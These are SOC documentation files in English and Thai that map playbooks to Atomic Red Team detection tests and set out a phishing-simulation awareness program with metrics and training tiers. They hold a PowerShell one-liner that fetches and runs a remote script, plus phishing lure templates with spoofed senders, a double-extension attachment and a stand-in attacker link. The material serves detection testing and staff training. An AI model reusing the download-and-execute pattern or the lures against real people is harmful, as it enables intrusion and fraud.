| PB-02 | Ransomware | T1486 | Data Encrypted for Impact (Mock) | EDR + SIEM | | |
| PB-09 | DDoS Attack | T1498 | Network Denial of Service | Network + SIEM | | |

### Cloud-Specific

| PB | Playbook Name | MITRE ID | Atomic Test | Expected Detection | Last Tested | Result |
|:---|:---|:---|:---|:---|:---|:---:|
| PB-21 | AWS EC2 Compromise | T1078.004 | Cloud Account Access | CloudTrail | | |
| PB-22 | AWS S3 Exposure | T1530 | Data from Cloud Storage | CloudTrail | | |
| PB-23 | Azure AD Compromise | T1078.004 | Cloud Accounts | Azure AD | | |
| PB-30 | DNS Tunneling | T1071.004 | DNS Protocol | DNS + SIEM | | |

---

## Testing Workflow

```mermaid
graph LR
    Plan["📋 1. Select Tests"] --> Prepare["🔧 2. Prep Test Machine"]
    Prepare --> Execute["▶️ 3. Execute Atomic Test"]
    Execute --> Validate["🔍 4. Validate Detection"]
    Validate --> Gap{Gap Found?}
    Gap -->|Yes| Tune["⚙️ 5a. Tune Rule / Create New"]
    Gap -->|No| Document["📝 5b. Record Pass"]
    Tune --> Retest["🔄 6. Retest"]
    Retest --> Document
    Document --> Report["📊 7. Update Test Map"]
```

## How to Run

### Prerequisites
```bash
# Install Atomic Red Team (PowerShell)
IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing)
Install-AtomicRedTeam -getAtomics
```

### Execute a Test
```powershell
# Run a specific test
Invoke-AtomicTest T1059.001 -TestNumbers 1

# Run all tests for a technique
Invoke-AtomicTest T1059.001

# Cleanup after test
Invoke-AtomicTest T1059.001 -Cleanup
```

### Validate Detection
1. Check SIEM for corresponding alert within 5 minutes
2. Verify alert severity and category match expectations
3. Confirm playbook steps are actionable
4. Record result in the "Result" column: 🟢 Pass / 🔴 Fail

---

## Testing Cadence

| Frequency | Scope | Owner |
|:---|:---|:---|
| **Monthly** | Top 5 critical playbooks | SOC Lead |
| **Quarterly** | All playbooks in matrix | Detection Engineer |
| **After rule change** | Affected playbooks | Rule author |
| **After major incident** | Related technique | IR Lead |

---

## Scoring Summary

| Metric | Value |
|:---|:---|
| **Total Tests Mapped** | 28 |
| **Last Full Test Run** | YYYY-MM-DD |
| **Pass Rate** | ___% |
| **Gaps Identified** | ___ |
| **Gaps Remediated** | ___ |

---

## Testing Frequency Matrix

| ATT&CK Tactic | Testing Frequency | Priority | Rationale |
|:---|:---|:---:|:---|
| Initial Access (TA0001) | Monthly | 🔴 High | Primary entry point, most common attacks |
| Execution (TA0002) | Monthly | 🔴 High | Critical for detecting payload execution |
| Persistence (TA0003) | Quarterly | 🟠 Medium | Validates long-term threat detection |
| Privilege Escalation (TA0004) | Quarterly | 🟠 Medium | Critical for detecting lateral movement prep |
| Defense Evasion (TA0005) | Monthly | 🔴 High | Adversaries constantly evolving evasion |
| Credential Access (TA0006) | Monthly | 🔴 High | Directly leads to compromise |
| Discovery (TA0007) | Quarterly | 🟡 Low | Often generates noise, lower priority |
| Lateral Movement (TA0008) | Monthly | 🔴 High | Key indicator of advanced attacks |
| Collection (TA0009) | Quarterly | 🟠 Medium | Pre-exfiltration activity |
| Exfiltration (TA0010) | Monthly | 🔴 High | Data loss prevention validation |
| Command & Control (TA0011) | Monthly | 🔴 High | Critical for detecting ongoing compromise |
| Impact (TA0040) | Quarterly | 🟠 Medium | Ransomware/destruction scenarios |

## Test Result Tracking

| Test ID | Technique | Date | Result | Gap Identified | Action Taken |
|:---|:---|:---|:---:|:---|:---|
| AT-001 | T1566.001 | YYYY-MM-DD | ✅/❌ | [Description] | [Rule created/tuned] |
| AT-002 | T1059.001 | YYYY-MM-DD | ✅/❌ | [Description] | [Rule created/tuned] |
| AT-003 | T1053.005 | YYYY-MM-DD | ✅/❌ | [Description] | [Rule created/tuned] |

> **Tracking Rule**: Every failed test (❌) must result in a detection rule created within 2 weeks.

## Related Documents

- [Simulation & Purple Teaming Guide](Simulation_Guide.en.md)
- [Purple Team Exercise Guide](Purple_Team_Exercise.en.md)
- [IR Framework](../05_Incident_Response/Framework.en.md)
- [Detection Rule Testing SOP](../06_Operations_Management/Detection_Rule_Testing.en.md)
- [Alert Tuning SOP](../06_Operations_Management/Alert_Tuning.en.md)

## References

- [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
- [MITRE ATT&CK Techniques](https://attack.mitre.org/techniques/enterprise/)
- [Invoke-AtomicRedTeam](https://github.com/redcanaryco/invoke-atomicredteam)


---

## File: 09_Simulation_Testing/Atomic_Test_Map.th.md

# ตาราง Atomic Red Team Mapping (การทดสอบตรวจจับ)

เอกสารนี้จับคู่ **SOC Playbooks** กับ **Atomic Red Team** tests ตาม MITRE ATT&CK ใช้ทดสอบ detection rules และ response procedures เป็นประจำ

---

## ตารางทดสอบ

### Initial Access & Execution

| PB | ชื่อ | MITRE ID | Atomic Test | Detective ที่คาดหวัง | ทดสอบล่าสุด | ผล |
|:---|:---|:---|:---|:---|:---|:---:|
| PB-01 | Phishing | T1566.001 | Spearphishing Attachment | Email gateway + SIEM | | 🟢🔴 |
| PB-03 | Malware | T1204.002 | Malicious File Execution | EDR + SIEM | | |
| PB-10 | Web Attack | T1190 | Exploit Public-Facing App (SQLi) | WAF + SIEM | | |
| PB-11 | Suspicious Script | T1059.001 | PowerShell Encoded Command | EDR + SIEM | | |

### Persistence & Privilege Escalation

| PB | ชื่อ | MITRE ID | Atomic Test | Detection ที่คาดหวัง | ทดสอบล่าสุด | ผล |
|:---|:---|:---|:---|:---|:---|:---:|
| PB-05 | Account Compromise | T1078 | Valid Accounts: Local | AD + SIEM | | |
| PB-07 | Privilege Escalation | T1098 | Admin Group Add | AD + SIEM | | |
| PB-15 | Rogue Admin | T1136.001 | Create Local Account | EDR + SIEM | | |

### Credential Access & Defense Evasion

| PB | ชื่อ | MITRE ID | Atomic Test | Detection ที่คาดหวัง | ทดสอบล่าสุด | ผล |
|:---|:---|:---|:---|:---|:---|:---:|
| PB-04 | Brute Force | T1110.001 | Password Guessing | AD + SIEM | | |
| PB-20 | Log Clearing | T1070.001 | Clear Windows Event Logs | EDR + SIEM | | |
| PB-33 | MFA Bypass | T1556.006 | MFA Modification | IAM + SIEM | | |

### Discovery & Lateral Movement

| PB | ชื่อ | MITRE ID | Atomic Test | Detection ที่คาดหวัง | ทดสอบล่าสุด | ผล |
|:---|:---|:---|:---|:---|:---|:---:|
| PB-12 | Lateral Movement | T1021.002 | SMB/Windows Admin Shares | EDR + SIEM | | |
| PB-34 | Network Discovery | T1046 | Network Scanning (nmap) | IDS + SIEM | | |
| PB-35 | Data Collection | T1560.001 | Archive via Utility | EDR + DLP | | |

### C2 & Exfiltration

| PB | ชื่อ | MITRE ID | Atomic Test | Detection ที่คาดหวัง | ทดสอบล่าสุด | ผล |
|:---|:---|:---|:---|:---|:---|:---:|
| PB-13 | C2 | T1071.001 | Web Protocols | Proxy + SIEM | | |
| PB-08 | Data Exfil | T1048 | Exfil Over Alt Protocol | DLP + SIEM | | |
| PB-14 | Insider Threat | T1052.001 | Exfil via USB | DLP + EDR | | |

### Impact

| PB | ชื่อ | MITRE ID | Atomic Test | Detection ที่คาดหวัง | ทดสอบล่าสุด | ผล |
|:---|:---|:---|:---|:---|:---|:---:|
| PB-02 | Ransomware | T1486 | Data Encrypted for Impact | EDR + SIEM | | |
| PB-09 | DDoS | T1498 | Network Denial of Service | Network + SIEM | | |

---

## ขั้นตอนการทดสอบ

```mermaid
graph LR
    Plan["📋 1. เลือก Tests"] --> Prepare["🔧 2. เตรียมเครื่อง"]
    Prepare --> Execute["▶️ 3. รัน Atomic Test"]
    Execute --> Validate["🔍 4. ตรวจ Detection"]
    Validate --> Gap{พบ Gap?}
    Gap -->|ใช่| Tune["⚙️ 5a. ปรับ Rule / สร้างใหม่"]
    Gap -->|ไม่| Document["📝 5b. บันทึก Pass"]
    Tune --> Retest["🔄 6. ทดสอบซ้ำ"]
    Retest --> Document
```

## วิธีรัน

```powershell
# ติดตั้ง Atomic Red Team
IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing)
Install-AtomicRedTeam -getAtomics

# รัน test
Invoke-AtomicTest T1059.001 -TestNumbers 1

# Cleanup
Invoke-AtomicTest T1059.001 -Cleanup
```

---

## ความถี่การทดสอบ

| ความถี่ | ขอบเขต | ผู้รับผิดชอบ |
|:---|:---|:---|
| **รายเดือน** | Top 5 critical playbooks | SOC Lead |
| **รายไตรมาส** | ทุก playbook ในตาราง | Detection Engineer |
| **หลังแก้กฎ** | Playbooks ที่เกี่ยวข้อง | ผู้เขียนกฎ |
| **หลัง incident สำคัญ** | Technique ที่เกี่ยวข้อง | IR Lead |

---

## ตารางความถี่การทดสอบ

| ATT&CK Tactic | ความถี่ | ลำดับ | เหตุผล |
|:---|:---|:---:|:---|
| Initial Access (TA0001) | รายเดือน | 🔴 สูง | จุดเข้าหลัก ถูกโจมตีบ่อยที่สุด |
| Execution (TA0002) | รายเดือน | 🔴 สูง | สำคัญสำหรับตรวจจับ payload |
| Persistence (TA0003) | รายไตรมาส | 🟠 กลาง | ตรวจสอบ detection ระยะยาว |
| Privilege Escalation (TA0004) | รายไตรมาส | 🟠 กลาง | เตรียม lateral movement |
| Defense Evasion (TA0005) | รายเดือน | 🔴 สูง | ผู้โจมตีพัฒนาเทคนิคหลบเลี่ยงตลอด |
| Credential Access (TA0006) | รายเดือน | 🔴 สูง | นำไปสู่ compromise โดยตรง |
| Discovery (TA0007) | รายไตรมาส | 🟡 ต่ำ | มักสร้าง noise ลำดับต่ำ |
| Lateral Movement (TA0008) | รายเดือน | 🔴 สูง | สัญญาณสำคัญของ advanced attacks |
| Collection (TA0009) | รายไตรมาส | 🟠 กลาง | กิจกรรมก่อน exfiltration |
| Exfiltration (TA0010) | รายเดือน | 🔴 สูง | ตรวจสอบ DLP |
| Command & Control (TA0011) | รายเดือน | 🔴 สูง | ตรวจจับ compromise ที่กำลังดำเนิน |
| Impact (TA0040) | รายไตรมาส | 🟠 กลาง | สถานการณ์ ransomware/ทำลาย |

## ติดตามผลทดสอบ

| Test ID | Technique | วันที่ | ผล | ช่องว่าง | แก้ไข |
|:---|:---|:---|:---:|:---|:---|
| AT-001 | T1566.001 | YYYY-MM-DD | ✅/❌ | [คำอธิบาย] | [สร้าง/ปรับ rule] |
| AT-002 | T1059.001 | YYYY-MM-DD | ✅/❌ | [คำอธิบาย] | [สร้าง/ปรับ rule] |

> **กฎ**: ทุก test ที่ล้มเหลว (❌) ต้องสร้าง detection rule ภายใน 2 สัปดาห์

## เอกสารที่เกี่ยวข้อง

- [คู่มือ Simulation & Purple Teaming](Simulation_Guide.th.md)
- [กรอบ IR](../05_Incident_Response/Framework.th.md)
- [SOP ทดสอบ Rule](../06_Operations_Management/Detection_Rule_Testing.th.md)

## Atomic Test Execution Guide

### Test Environment Setup

| Component | Requirements | เตรียมล่วงหน้า |
|:---|:---|:---|
| VM (Windows) | Win 10/11 + Sysmon | Snapshot ก่อนทดสอบ |
| VM (Linux) | Ubuntu 22.04 | auditd configured |
| Network | Isolated VLAN | Monitor traffic |
| SIEM | Log collection active | Baseline alerts |

### Test Result Tracking

| Test ID | Technique | ผลลัพธ์ | Detection Status |
|:---|:---|:---|:---|
| AT-001 | T1566.001 | ✅ Success | ✅ Detected |
| AT-002 | T1059.001 | ✅ Success | ⚠️ Partial |
| AT-003 | T1003 | ✅ Success | ❌ Not detected |

### Test Scheduling Calendar

| เดือน | Focus Area | Techniques | Status |
|:---|:---|:---|:---|
| ม.ค. | Initial Access | T1566, T1078 | ☐ |
| มี.ค. | Execution | T1059, T1204 | ☐ |
| พ.ค. | Persistence | T1053, T1547 | ☐ |
| ก.ค. | Defense Evasion | T1070, T1036 | ☐ |
| ก.ย. | Credential Access | T1003, T1110 | ☐ |
| พ.ย. | Lateral Movement | T1021, T1080 | ☐ |

### Lab Reset Procedures

| Step | Action | Time |
|:---|:---|:---|
| 1 | Revert VM snapshots | 5 min |
| 2 | Clear SIEM test data | 2 min |
| 3 | Reset network configs | 3 min |
| 4 | Verify clean state | 5 min |

### Test Priority Guide

| Priority | Criteria |
|:---|:---|
| P1 | Active threat |
| P2 | Coverage gap |

## อ้างอิง

- [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
- [MITRE ATT&CK](https://attack.mitre.org/techniques/enterprise/)


---

## File: 09_Simulation_Testing/Phishing_Simulation.en.md

# Security Awareness & Phishing Simulation Program

**Document ID**: OPS-SOP-021
**Version**: 1.0
**Classification**: Internal
**Last Updated**: 2026-02-15

> A structured program for **testing employee resilience** against social engineering attacks through realistic phishing simulations, measuring results, providing targeted training, and reducing human risk over time.

---

## Program Overview

```mermaid
graph TD
    A[📋 Plan Campaign] --> B[🎣 Execute Simulation]
    B --> C[📊 Collect Metrics]
    C --> D[📚 Train & Educate]
    D --> E[📈 Report & Improve]
    E --> A

    style A fill:#3b82f6,color:#fff
    style B fill:#dc2626,color:#fff
    style D fill:#22c55e,color:#fff
```

---

## Phishing Simulation Types

| Type | Difficulty | Description | Frequency |
|:---|:---:|:---|:---:|
| **Mass campaign** | 🟢 Easy–Medium | Same template sent to all employees | Monthly |
| **Targeted spear-phish** | 🟠 Hard | Customized per department/role | Quarterly |
| **Vishing (voice)** | 🟠 Hard | Phone-based social engineering | Semi-annual |
| **Smishing (SMS)** | 🟡 Medium | SMS/messaging-based | Semi-annual |
| **USB drop** | 🔴 Very Hard | Malicious USB left in common areas | Annual |
| **QR code phish** | 🟡 Medium | Malicious QR in poster/email | Quarterly |
| **BEC simulation** | 🔴 Very Hard | Fake CEO/CFO wire transfer request | Quarterly |

---

## Campaign Planning

### Pre-Campaign Checklist

- [ ] Define campaign objective and KPIs
- [ ] Select target groups (all employees, department, VIPs)
- [ ] Choose simulation type and difficulty
- [ ] Design email template (brand-aligned, realistic)
- [ ] Set up landing page (credential harvest / file download)
- [ ] Configure tracking (open, click, submit, report)
- [ ] Get management approval
- [ ] Coordinate with IT (whitelist simulation IPs/domains)
- [ ] Set campaign duration (typically 72 hours)
- [ ] Prepare training content for failures

### Template Categories

| Category | Example Lure | Risk Level | Target |
|:---|:---|:---:|:---|
| **IT/Helpdesk** | "Password expiring, click to reset" | 🟡 Medium | All employees |
| **HR/Benefits** | "Open enrollment deadline — review benefits" | 🟡 Medium | All employees |
| **Finance/Invoice** | "Invoice #9384 attached — please review" | 🟠 High | Finance team |
| **CEO/Executive** | "Urgent wire transfer needed" | 🔴 Very High | Finance/exec assistants |
| **Package delivery** | "Your package couldn't be delivered" | 🟢 Low | All employees |
| **Cloud/SaaS** | "Shared document — click to view" | 🟡 Medium | All employees |
| **Seasonal** | "Holiday bonus — confirm your details" | 🟡 Medium | All employees |
| **Current events** | "COVID/tax season update — action required" | 🟠 High | All employees |

---

## Metrics Collection

### Per-Campaign Metrics

| Metric | Definition | Target |
|:---|:---|:---:|
| **Delivery rate** | Emails delivered / sent | ≥ 98% |
| **Open rate** | Unique opens / delivered | Baseline only |
| **Click rate** | Unique clicks / delivered | < 10% |
| **Submission rate** | Credentials submitted / delivered | < 3% |
| **Report rate** | Reported as phishing / delivered | > 30% |
| **Time to first click** | Time from send to first click | Tracking only |
| **Time to first report** | Time from send to first report | Tracking only |
| **Repeat offender rate** | Users who clicked in 2+ campaigns | < 5% |

### Department Leaderboard

| Department | Employees | Click Rate | Submit Rate | Report Rate | Risk Score |
|:---|:---:|:---:|:---:|:---:|:---:|
| Engineering | _____ | ___% | ___% | ___% | ___/100 |
| Finance | _____ | ___% | ___% | ___% | ___/100 |
| HR | _____ | ___% | ___% | ___% | ___/100 |
| Sales | _____ | ___% | ___% | ___% | ___/100 |
| Marketing | _____ | ___% | ___% | ___% | ___/100 |
| Executive | _____ | ___% | ___% | ___% | ___/100 |
| IT | _____ | ___% | ___% | ___% | ___/100 |
| **Average** | **_____** | **___%** | **___%** | **___%** | **___/100** |

### Risk Score Calculation

```
Risk Score = (Click Rate × 3) + (Submit Rate × 5) − (Report Rate × 2)
```

| Risk Level | Score | Action |
|:---|:---:|:---|
| 🟢 Low | 0–20 | Standard training |
| 🟡 Medium | 21–40 | Enhanced awareness training |
| 🟠 High | 41–60 | Mandatory remedial training + retest |
| 🔴 Critical | 61+ | 1-on-1 coaching + manager notification |

---

## Post-Simulation Training

### Training Tiers

| Tier | Trigger | Training Content | Delivery | Completion SLA |
|:---|:---|:---|:---|:---:|
| **Tier 0** | All employees (baseline) | Annual security awareness course | LMS | Annual |
| **Tier 1** | Opened phishing email | 5-minute micro-learning module | Auto-email | 7 days |
| **Tier 2** | Clicked phishing link | 15-minute interactive training | LMS assignment | 5 days |
| **Tier 3** | Submitted credentials | 30-minute deep-dive + quiz | LMS + manager notify | 3 days |
| **Tier 4** | Repeat offender (3+ times) | 1-on-1 with security team | In-person/virtual | 5 days |

### Teachable Moment Content

Displayed immediately after user clicks phishing link:

| Element | Content |
|:---|:---|
| **Header** | "⚠️ This was a phishing simulation" |
| **What happened** | "You clicked a simulated phishing link in an email from [sender]" |
| **Red flags** | 3-5 specific indicators they should have noticed |
| **What to do next** | "Complete the training module sent to your inbox" |
| **Real attack** | "If this was real, your credentials could be compromised" |
| **Report button** | "Report suspicious emails using the [Phish Alert Button]" |

---

## Annual Campaign Calendar

| Month | Campaign Type | Template | Difficulty | Target |
|:---|:---|:---|:---:|:---|
| Jan | Mass | IT: Password reset | 🟢 Easy | All |
| Feb | Targeted | Finance: Invoice | 🟠 Hard | Finance |
| Mar | Mass | HR: Benefits enrollment | 🟡 Medium | All |
| Apr | Mass | Tax season | 🟠 High | All |
| May | QR Code | WiFi QR poster | 🟡 Medium | Office staff |
| Jun | BEC Simulation | CEO wire transfer | 🔴 Very Hard | Finance + EA |
| Jul | Mass | Cloud: Shared document | 🟡 Medium | All |
| Aug | Vishing | IT helpdesk call | 🟠 Hard | Random sample |
| Sep | Mass | Package delivery | 🟢 Easy | All |
| Oct | Targeted + USB | Cybersecurity month special | 🔴 Very Hard | Random |
| Nov | Mass | Holiday bonus | 🟡 Medium | All |
| Dec | Smishing | End-of-year benefits SMS | 🟡 Medium | All |

---

## Repeat Offender Program

### Escalation Ladder

```mermaid
flowchart TD
    A[1st Failure] --> B[Teachable moment + Tier 1/2/3 training]
    B --> C[2nd Failure within 12 months]
    C --> D[Manager notification + enhanced training]
    D --> E[3rd Failure within 12 months]
    E --> F[1-on-1 security coaching session]
    F --> G[4th Failure within 12 months]
    G --> H[HR involvement + access review]

    style A fill:#22c55e,color:#fff
    style C fill:#eab308,color:#000
    style E fill:#f97316,color:#fff
    style G fill:#dc2626,color:#fff
```

### Repeat Offender Tracker

| Employee | Dept | Failures (12mo) | Last Failure | Training | Status |
|:---|:---|:---:|:---|:---|:---|
| ____________ | ____ | _____ | ____-__-__ | __________ | Active/Resolved |

---

## Phish Alert Button (PAB)

### Implementation

| Aspect | Detail |
|:---|:---|
| **Tool** | KnowBe4 PAB / Microsoft Report Message / custom add-in |
| **Location** | Outlook/Gmail toolbar — always visible |
| **Action when clicked** | Forward to `phishing@company.com` + auto-delete from inbox |
| **SOC workflow** | Auto-classify → if simulation: mark as reported; if real: triage |
| **User feedback** | Automated reply: "Thanks for reporting! This is being reviewed." |

### PAB Metrics

| Metric | Target |
|:---|:---:|
| PAB installation rate | ≥ 95% of employees |
| Report rate (simulated phishing) | ≥ 30% |
| Report rate (real phishing) | Tracking only |
| False report rate (legitimate email) | < 5% |
| Time from report to SOC review | < 15 minutes |

---

## Program Metrics (Annual)

| Metric | Target | Formula |
|:---|:---:|:---|
| Annual average click rate | < 10% | Mean of all campaigns |
| Annual average submit rate | < 3% | Mean of all campaigns |
| Annual average report rate | > 30% | Mean of all campaigns |
| Repeat offender rate | < 5% | Users failed 2+ / total |
| Training completion rate | ≥ 95% | Completed / assigned |
| Year-over-year click reduction | > 20% | (Y1 − Y2) / Y1 |
| Security awareness quiz score | ≥ 80% | Annual quiz average |

---

## Legal & Communication Considerations

| Topic | Guidance |
|:---|:---|
| **Employee notification** | Inform employees that simulations may occur (via policy, not timing) |
| **No punitive action** | Simulations are educational, not disciplinary (until repeat offender) |
| **Data privacy** | Individual results are confidential; share only aggregated data publicly |
| **Manager reporting** | Managers receive department-level stats, not individual names (except repeat offenders) |
| **PDPA compliance** | Processing of simulation data is disclosed in employee privacy notice |
| **Positive reinforcement** | Recognize employees/departments with highest report rates |

---

## Related Documents

-   [Insider Threat Program](../06_Operations_Management/Insider_Threat_Program.en.md) — Human risk reduction
-   [Escalation Matrix](../05_Incident_Response/Escalation_Matrix.en.md) — Real phishing escalation
-   [SOC Automation Catalog](../06_Operations_Management/SOC_Automation_Catalog.en.md) — Phishing auto-triage
-   [KPI Dashboard Template](../06_Operations_Management/KPI_Dashboard_Template.en.md) — Awareness metrics
-   [Incident Classification](../05_Incident_Response/Incident_Classification.en.md) — Phishing classification


---

## File: 09_Simulation_Testing/Phishing_Simulation.th.md

# Security Awareness & Phishing Simulation Program / โปรแกรมจำลอง Phishing

**รหัสเอกสาร**: OPS-SOP-021
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ใช้ภายใน
**อัปเดตล่าสุด**: 2026-02-15

> โปรแกรมสำหรับ **ทดสอบการตอบสนองของพนักงาน** ต่อ social engineering ผ่านจำลอง phishing จริง, วัดผล, ฝึกอบรมเป้าหมาย, และลดความเสี่ยงมนุษย์

---

## ประเภทการจำลอง

| ประเภท | ความยาก | คำอธิบาย | ความถี่ |
|:---|:---:|:---|:---:|
| **Mass campaign** | 🟢 ง่าย–กลาง | template เดียวส่งทุกคน | รายเดือน |
| **Targeted spear-phish** | 🟠 ยาก | ปรับแต่งตามแผนก/ตำแหน่ง | รายไตรมาส |
| **Vishing (โทรศัพท์)** | 🟠 ยาก | Social engineering ผ่านโทรศัพท์ | ปีละ 2 ครั้ง |
| **Smishing (SMS)** | 🟡 กลาง | SMS/messaging | ปีละ 2 ครั้ง |
| **USB drop** | 🔴 ยากมาก | USB ทิ้งในพื้นที่ส่วนกลาง | รายปี |
| **QR code phish** | 🟡 กลาง | QR ปลอมบนโปสเตอร์/email | รายไตรมาส |
| **BEC simulation** | 🔴 ยากมาก | ปลอม CEO/CFO ขอโอนเงิน | รายไตรมาส |

---

## Checklist ก่อนทำ Campaign

- [ ] กำหนดวัตถุประสงค์และ KPIs
- [ ] เลือกกลุ่มเป้าหมาย
- [ ] เลือกประเภทและความยาก
- [ ] ออกแบบ email template (สมจริง)
- [ ] ตั้งค่า landing page (credential harvest / file download)
- [ ] ตั้งค่า tracking (เปิด, คลิก, กรอก, รายงาน)
- [ ] ได้รับอนุมัติจากผู้บริหาร
- [ ] ประสาน IT (whitelist simulation IPs/domains)
- [ ] กำหนดระยะเวลา (72 ชม.)

---

## ตัวชี้วัดต่อ Campaign

| ตัวชี้วัด | นิยาม | เป้าหมาย |
|:---|:---|:---:|
| **Delivery rate** | ส่งถึง / ส่งทั้งหมด | ≥ 98% |
| **Click rate** | คลิก / ส่งถึง | < 10% |
| **Submission rate** | กรอก credentials / ส่งถึง | < 3% |
| **Report rate** | รายงานเป็น phishing / ส่งถึง | > 30% |
| **Repeat offender rate** | คลิกใน 2+ campaigns | < 5% |

### การคำนวณ Risk Score

```
Risk Score = (Click Rate × 3) + (Submit Rate × 5) − (Report Rate × 2)
```

| ระดับ | Score | Action |
|:---|:---:|:---|
| 🟢 ต่ำ | 0–20 | เทรน standard |
| 🟡 กลาง | 21–40 | Enhanced awareness training |
| 🟠 สูง | 41–60 | บังคับเทรนเพิ่ม + ทดสอบซ้ำ |
| 🔴 วิกฤต | 61+ | 1-on-1 coaching + แจ้งหัวหน้า |

---

## การฝึกอบรมหลังจำลอง

| Tier | เงื่อนไข | เนื้อหา | ระยะ SLA |
|:---|:---|:---|:---:|
| **Tier 0** | พนักงานทุกคน | หลักสูตร awareness ประจำปี | รายปี |
| **Tier 1** | เปิด phishing email | Micro-learning 5 นาที | 7 วัน |
| **Tier 2** | คลิก phishing link | Interactive training 15 นาที | 5 วัน |
| **Tier 3** | กรอก credentials | Deep-dive 30 นาที + quiz | 3 วัน |
| **Tier 4** | ทำผิดซ้ำ (3+ ครั้ง) | 1-on-1 กับทีม security | 5 วัน |

---

## ปฏิทิน Campaign รายปี

| เดือน | ประเภท | Template | ความยาก | เป้าหมาย |
|:---|:---|:---|:---:|:---|
| ม.ค. | Mass | IT: Password reset | 🟢 ง่าย | ทุกคน |
| ก.พ. | Targeted | Finance: Invoice | 🟠 ยาก | Finance |
| มี.ค. | Mass | HR: สวัสดิการ | 🟡 กลาง | ทุกคน |
| เม.ย. | Mass | ภาษี | 🟠 ยาก | ทุกคน |
| พ.ค. | QR Code | QR WiFi poster | 🟡 กลาง | พนักงาน office |
| มิ.ย. | BEC | CEO wire transfer | 🔴 ยากมาก | Finance + EA |
| ก.ค. | Mass | Cloud: Shared document | 🟡 กลาง | ทุกคน |
| ส.ค. | Vishing | IT helpdesk call | 🟠 ยาก | สุ่ม |
| ก.ย. | Mass | Package delivery | 🟢 ง่าย | ทุกคน |
| ต.ค. | Targeted + USB | Cybersecurity month | 🔴 ยากมาก | สุ่ม |
| พ.ย. | Mass | Holiday bonus | 🟡 กลาง | ทุกคน |
| ธ.ค. | Smishing | สวัสดิการสิ้นปี SMS | 🟡 กลาง | ทุกคน |

---

## Repeat Offender Program

### บันไดการ Escalate

```mermaid
flowchart TD
    A["ผิดครั้งที่ 1"] --> B[Teachable moment + เทรน]
    B --> C["ผิดครั้งที่ 2 ภายใน 12 เดือน"]
    C --> D[แจ้งหัวหน้า + enhanced training]
    D --> E["ผิดครั้งที่ 3"]
    E --> F[1-on-1 security coaching]
    F --> G["ผิดครั้งที่ 4"]
    G --> H[HR involvement + ตรวจสิทธิ์]

    style A fill:#22c55e,color:#fff
    style C fill:#eab308,color:#000
    style E fill:#f97316,color:#fff
    style G fill:#dc2626,color:#fff
```

---

## Phish Alert Button (PAB)

| ด้าน | รายละเอียด |
|:---|:---|
| **เครื่องมือ** | KnowBe4 PAB / Microsoft Report Message |
| **ตำแหน่ง** | Outlook/Gmail toolbar — เห็นตลอด |
| **เมื่อคลิก** | Forward ไป `phishing@company.com` + ลบ auto |
| **SOC workflow** | ถ้าจำลอง: mark reported, ถ้าจริง: triage |
| **Feedback** | ตอบกลับอัตโนมัติ: "ขอบคุณที่แจ้ง กำลังตรวจสอบ" |

### PAB Metrics

| ตัวชี้วัด | เป้าหมาย |
|:---|:---:|
| PAB installation rate | ≥ 95% |
| Report rate (จำลอง) | ≥ 30% |
| False report rate | < 5% |
| เวลาจาก report ถึง SOC review | < 15 นาที |

---

## เป้าหมายรายปี

| ตัวชี้วัด | เป้าหมาย |
|:---|:---:|
| Click rate เฉลี่ยรายปี | < 10% |
| Submit rate เฉลี่ยรายปี | < 3% |
| Report rate เฉลี่ยรายปี | > 30% |
| Repeat offender rate | < 5% |
| Training completion rate | ≥ 95% |
| ลดลง YoY click rate | > 20% |

---

## ข้อพิจารณาทางกฎหมาย

| หัวข้อ | แนวทาง |
|:---|:---|
| **แจ้งพนักงาน** | แจ้งว่าอาจมีจำลอง (ผ่านนโยบาย ไม่แจ้งเวลา) |
| **ไม่ลงโทษ** | จำลองเพื่อการศึกษา ไม่ใช่ทางวินัย (ยกเว้นทำซ้ำ) |
| **ความเป็นส่วนตัว** | ผลรายบุคคลเป็นความลับ, แชร์เฉพาะรวม |
| **PDPA** | การประมวลผลข้อมูลจำลองแจ้งใน privacy notice |
| **เสริมแรงเชิงบวก** | ชมเชยแผนกที่ report rate สูงสุด |

---

## เทมเพลต Phishing Email

### ระดับ 1 — ง่าย (สังเกตได้ชัด)

| ส่วน | เนื้อหา |
|:---|:---|
| **From** | IT-Support@comp4ny.com (สะกดผิด) |
| **Subject** | ⚠️ รหัสผ่านของคุณจะหมดอายุวันนี้! |
| **Body** | กรุณาคลิกลิงก์ด้านล่างเพื่ออัปเดตรหัสผ่าน |
| **Link** | `http://update-password.fake-domain.com` |
| **Indicators** | Domain ผิด, URL ไม่ใช่ HTTPS, urgency |

### ระดับ 2 — ปานกลาง

| ส่วน | เนื้อหา |
|:---|:---|
| **From** | hr@company-benefits.com (domain คล้าย) |
| **Subject** | อัปเดตสวัสดิการประจำปี 2026 |
| **Body** | เอกสารแนบสำหรับทบทวนสิทธิ์สวัสดิการ |
| **Attachment** | Benefits_2026.pdf.exe (double extension) |
| **Indicators** | External domain, double extension |

### ระดับ 3 — ยาก (Spear Phishing)

| ส่วน | เนื้อหา |
|:---|:---|
| **From** | [ชื่อ CEO]@company.com (spoofed) |
| **Subject** | Re: ด่วน — โอนเงินให้ vendor |
| **Body** | ข้อความต่อจาก thread จริง, มีรายละเอียดบริษัท |
| **Link** | `https://company-portal.attacker.com` |
| **Indicators** | Reply-to ต่าง, unusual request |

## Metrics Dashboard

| ตัวชี้วัด | เดือนที่แล้ว | เดือนนี้ | เป้าหมาย |
|:---|:---:|:---:|:---:|
| Click Rate | [XX]% | [XX]% | < 5% |
| Report Rate | [XX]% | [XX]% | > 60% |
| Credential Submit Rate | [XX]% | [XX]% | < 2% |
| ผ่าน Training | [XX]% | [XX]% | > 90% |

## กำหนดการ Simulation ประจำปี

| เดือน | ระดับ | กลุ่มเป้าหมาย | หัวข้อ |
|:---|:---:|:---|:---|
| ม.ค. | 1 | ทุกคน | Password expiry |
| มี.ค. | 2 | Finance + HR | Invoice/Benefits fraud |
| พ.ค. | 2 | IT + Developer | Malicious repo/package |
| ก.ค. | 3 | C-level + Executives | CEO fraud / BEC |
| ก.ย. | 2 | ทุกคน | Seasonal (tax/bonus) |
| พ.ย. | 3 | High-risk users | Targeted spear phishing |

